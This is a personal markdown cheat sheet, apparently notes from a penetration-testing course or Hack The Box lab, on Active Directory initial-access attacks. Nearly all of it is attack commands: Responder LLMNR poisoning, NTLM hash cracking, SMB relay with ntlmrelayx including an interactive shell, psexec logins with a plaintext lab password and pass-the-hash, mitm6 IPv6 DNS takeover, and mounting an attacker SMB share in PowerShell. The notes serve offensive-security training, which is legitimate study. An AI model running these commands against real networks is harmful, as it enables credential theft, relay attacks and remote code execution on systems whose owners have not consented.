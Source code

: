 
<h2> Initial Attack Vectors</h2>
- [ ] LLMNR Poisoning [[01 LLMNR Poising]]
```
sudo responder -I eth0 -dwP
```

```
sudo responder -I eth0 -dwPv
```

```
\\<Attacker_IP>
```

Make sure that SMB and HTTP is on


<hr>


- [ ] Capturing NTLMv2 Hashes with Responder [[1.1 Cracking Captured Hashes]]
```
hashcat --help | grep NTLM
```


<hr>


- [ ] SMB Relay Attack [[02 SMB relay attack]]
```
nmap --script=smb2-security-mode.nse -p445 <ip_address>
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```


Swipe Entire Network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```


 configuration changes to the responder
 ```
 nano /etc/responder/Responder.conf
```

```
SMB = OFF
HTTP = OFF
```

responder
```
sudo responder -I eth0 -dwPv 
```


NTLM relay (i.e. make sure to add the IP address of the host in the target.txt with SMB signing off)
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```

If want interactive shell
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```

```
nc 127.0.0.1 <port number>
```



<hr>


- [ ] Gaining Shell [[03 Gaining shells]]
```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```

```
psexec.py <username>@<IP_192.168.17.140> -hashes :
```

wmiexec.py or smbexec.py

<hr>


- [ ] IPV6 DNS Takeover via MIM6 [[04 IPv6 Attacks]]


Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```


```
mitm6 -d marvel.local
```

<hr>

- [ ] Passback Attacks
```
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
```




## SMB Sever

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```



## Neo4j
if forget the password of neo4j than simply delete the file at this location
```
locate neo4j | grep auth
```

